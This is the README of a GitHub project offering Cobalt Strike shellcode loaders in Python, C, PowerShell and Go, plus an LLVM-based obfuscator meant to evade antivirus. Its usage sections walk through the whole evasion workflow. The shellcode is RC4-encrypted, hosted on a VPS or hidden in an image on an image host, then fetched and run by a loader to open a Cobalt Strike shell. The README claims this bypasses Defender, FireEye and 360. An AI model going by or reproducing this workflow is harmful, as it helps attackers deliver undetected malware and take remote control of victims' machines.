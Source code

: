 ```yaml
---
project: CS-Loader
stars: 839
description: CSLoader is a general purpose obfuscation and anti-virus tool based on a reimplementation of the llvm project obfuscator(https://github.com/obfuscator-llvm/obfuscator).
url: https://github.com/Gality369/CS-Loader
---
```


CS-Avoid-killing
================

Chinese README

Overall, malware identification through the application's binary feature strings is still the most commonly used static analysis by antivirus software, while dynamic analysis (sandboxing, virtual machines, etc.) can be bypassed by anti-debugging, anti-sandboxing, and other techniques, so minimizing the binary features of a malicious program is still an important means of avoiding detection and killing.

CS evasion, including both Python and C versions (Tested: Python packaged version has bugs on Windows 10, not working, but works fine on Windows 7)

In addition to using a specific language to obfuscate binary features, it is also possible to implement a generic obfuscator to obfuscate arbitrary programs at the binary level. The generic obfuscator implemented in this project is an LLVM-17 based obfuscator that takes advantage of LLVM's new pass implementation plug-in feature to enable code obfuscation for multiple languages and platforms.

-   V4.0: A general-purpose code obfuscator has been implemented, which can obfuscate the binary of any program with the help of LLVM, and is theoretically a general-purpose method to fight against antivirus static scanning. The Generic\_obfuscator is a rewrite of obfuscator ref: https://github.com/obfuscator-llvm/obfuscator
    
-   V3.1 Added Go version (can bypass FireEye/360/Defender).
    
-   V3.0: Attempting to integrate more evasion techniques (planning to research process injection/file bundling to see how well they evade protection).
    
-   V2.0: Developed an online evasion platform (Completed)
    

> PS: In practical use, I found that a graphical interface is not ideal for integration with other tools, while command-line interfaces are more flexible and extensible.
> 
> Regarding my online evasion platform, I don't plan to open-source it at this time because the technology is still in its early stages. If anyone is interested in trying it out, feel free to contact me.

-   V2.0: Develop a graphical user interface
    
-   V1.7: Added PowerShell evasion (Completed)
    
-   V1.5: Added C version of CS evasion (Completed)
    
-   V1.0: Currently, it can bypass Defender/FireEye's static and dynamic protection. 360 hasn't been tested yet. I don't want to install the full 360 suite, but you can test it yourself.
    

Dependencies
------------

Generic Obfuscator:

-   llvm-17：

```
git clone --depth 1 -b release/17.x https://github.com/llvm/llvm-project.git
mkdir build
cmake -G Ninja -DLLVM_ENABLE_PROJECTS="clang;lld" -DLLVM_TARGETS_TO_BUILD="X86;ARM;AArch64" -DCMAKE_BUILD_TYPE=Release -DLLVM_INCLUDE_TESTS=OFF -DLLVM_ENABLE_RTTI=ON -DLLVM_OBFUSCATION_LINK_INTO_TOOLS=
ON -DCMAKE_INSTALL_PREFIX=./build/ ../llvm-project/llvm
ninja -j8
ninja install
```

Python:

-   Python 2
-   PyInstaller
-   Requests

C: VS2019 should be sufficient

PowerShell: Tested on Windows 10 (PS 5.1), lower versions haven't been tested.

Go: Go

Installation
------------

Other versions are portable to use, just clone the project. `git clone https://github.com/Gality369/CS-Avoid-killing.git`

Howerver, Generic\_bfuscator need additionally installation：

```
cd Generic Obfuscator
mkdir build
cd build
cmake ..
make -j `nproc`
```

Usage
-----

1.  First, generate a C-format shellcode through CS: `Attacks -> Packages -> Payload Generator` Choose a listener and generate a C shellcode (essentially binary code).
    
2.  Python version:
    
    > 1.  Paste the generated shellcode into the shellcode variable in generator.py and provide a Key for RC4 encryption.
    > 2.  Run generator.py, the generated payload will be saved in payload.txt.
    > 3.  Upload payload.txt to your VPS. The loader will fetch the encrypted shellcode from the VPS and decrypt it locally for execution.
    > 4.  In PyLoader.py, fill in the path to the payload on your VPS and the Key you just set.
    > 5.  Package the file using `python pyinstaller.py -F -w PyLoader.py`. The executable will be in the dist folder inside the pyshellcode directory. Double-click to run and the host will go online.
    
3.  C version:
    
    > 1.  Input your own Key, shellcode length, and shellcode as required, then execute.
    > 2.  Copy the first line's number into the Base64ShellLen field in Loader, save the generated encrypted shellcode in payload.txt, and place it on the server. If the filename or path is different, modify the path in `char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";` accordingly.
    > 3.  In path, fill in the path to access the payload (e.g., /test/payload.txt).
    > 4.  Fill in your Key and VPS IP in Loader, then compile.
    > 5.  Run the compiled .exe to bring up the CS shell.
    
4.  PowerShell version:
    
    > 1.  Generate a PowerShell payload .ps1 in CS.
    > 2.  Run Python3 PSconfusion.py payload.ps1 AVpayload.ps1.
    > 3.  This version can bypass all static detections from current antivirus software. For dynamic detections, some CS modules may trigger detection when loading, and that will be explored further later.
    
5.  Go version:
    
    > 1.  Place a not-too-large image in the same folder.
    > 2.  Paste the generated shellcode into the shellcode variable in generator.py, and execute `python generator YourRC4key ImageName`. The shellcode will be appended to the end of the image.
    > 3.  Upload the image to an image hosting service (choose one that does not compress images to ensure the shellcode remains intact).
    

> 1.  Enter the image URL and your RC4 key into the corresponding fields in CS-Loader.go.
> 2.  Build the .exe using the command `go build -ldflags="-H windowsgui" CS-Loader.go` (you can compress it with UPX).
> 3.  Run the .exe and the CS shell will be active.

1.  Generic Obfuscator Version：
    
    > 1.  set `config/config.json` to enable different functions. (Please check `Generic_obfuscator/README.md` to get more information.)
    > 2.  run `<your-clang-17> -fpass-plugin=<your-generic_obfuscator.so>`
    

Notes
-----

1.  PyInstaller Installation Details:
    
    > The last version of PyInstaller that supports Python 2 is 3.6 (newer versions no longer support Python 2).
    > 
    > Website: https://github.com/pyinstaller/pyinstaller/releases
    > 
    > You also need to install pywin32: https://github.com/mhammond/pywin32
    
2.  Package in the target environment to avoid issues with different systems. Avoid using Python 3 for this project due to poor support for ctypes in Python 3, which can cause random bugs. Thanks to KingSF5 for fixing the Python 3 version (greatly appreciated~).
    
3.  C version testing: The C version works fine under X86Debug mode. In Release mode, there are unexplained bugs, and it may not work properly on some machines. Please test according to your needs.
    
4.  Do not select dynamic compilation, as it may cause the program to fail to run due to missing DLLs on the target machine.
    
5.  The method of loading PowerShell scripts is not discussed here, but some experts have already documented it well. Please search for it on Baidu.
    
6.  Before building the Go version, it is recommended to run `set GOARCH=amd64` and use a 64-bit shellcode. A 32-bit build may lead to errors related to missing functions in ntdll.dll, as reported by others: https://stackoverflow.com/questions/58649055/failed-to-find-rtlcopymemory-procedure-in-ntdll-dll-only-when-goarch-386
    
7.  For a detailed description of Generic Obfuscator, please refer to `Generic_obfuscator/README.md`, which provides a detailed description of the obfuscator and how to use it.

